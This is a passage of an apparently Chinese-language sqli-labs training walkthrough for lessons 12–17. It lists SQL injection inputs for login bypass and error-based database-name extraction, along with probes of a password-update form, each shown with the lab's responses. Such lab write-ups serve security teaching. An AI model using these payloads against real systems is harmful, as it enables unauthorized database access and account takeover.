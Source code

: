 ![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f79bqwm64dj30k00emtax.jpg)
<font color="red"> 说明是双引号闭合，且有括号</font>

其他获取数据库信息的步骤同 lesson 11

# 3 lesson 13 POST-基于错误-二次注入-单引号-一个括号
注入原理请参见：[sqli labs lesson 5~7 学习](http://huirong.github.io/2016/08/25/sqli-labs-series-lesson5-7/)
## 3.1 判断注入类型
输入 | 说明
-- | --
admin ' | You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''admin '') and password=('') LIMIT 0,1' at line 1
admin')#| SUCCESSFULLY LOGGED IN

 说明是单引号闭合，且有括号

## 3.2 构造编译正确，运行可能出错的sql
sql： `select count(*),concat(database(),0x40,floor(rand()*2))a from information_schema.tables where table_schema=database() group by a`
username：') union select count(*),concat(database(),0x40,floor(rand()*2))a from information_schema.tables where table_schema=database() group by a#

相同的输入，多次提交
![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f79de281uuj30fa082dgc.jpg)

错误：Duplicate entry 'security@1' for key 'group_key'
说明数据库名字：security
同样的方法获取其他数据库信息

# 4 lesson 14 POST-基于错误-二次注入-单双引号
username：`" union select count(*),concat(database(),0x40,floor(rand()*2))a from information_schema.tables where table_schema=database() group by a#`

除了闭合方式是双引号，其他注入过程同 lesson 13

# 5 lesson 15 POST 盲注-基于bool型
思路同 [sqli labs lesson 8~10 学习](sqli labs lesson 8~10 学习) lesson 8 盲注-基于bool值

# 6 lesson 16 POST 盲注-基于时间
思路同 [sqli labs lesson 8~10 学习](sqli labs lesson 8~10 学习) lesson 9 盲注-基于时间-单引号

# 7 lesson 17 POST-UPDATE-基于错误
在文本框输入用户名和密码，显示“ SUCCESSFULLY UPDATED YOUR PASSWORD”，更新密码成功！！！

![](http://ww3.sinaimg.cn/large/005CA6ZCjw1f7d1oyjo66j30jq0eqdix.jpg)
## 1.1 判断注入类型
username | new password | 结果
-- | -- | --
admin | 12345 | SUCCESSFULLY UPDATED YOUR PASSWORD（密码更新成功）
admin' | 123 | BUG OFF YOU SILLY DUMB HACKER
admin | ' |  check the manual that corresponds to your MySQL server version for the right syntax to use near 'admin'' at line 1（语法错误）
admin | ') | check the manual that corresponds to your MySQL server version for the right syntax to use near ')' WHERE username='admin'' at line 1| 
admin | " | SUCCESSFULLY UPDATED YOUR PASSWORD
admin | ") | SUCCESSFULLY UPDATED YOUR PASSWORD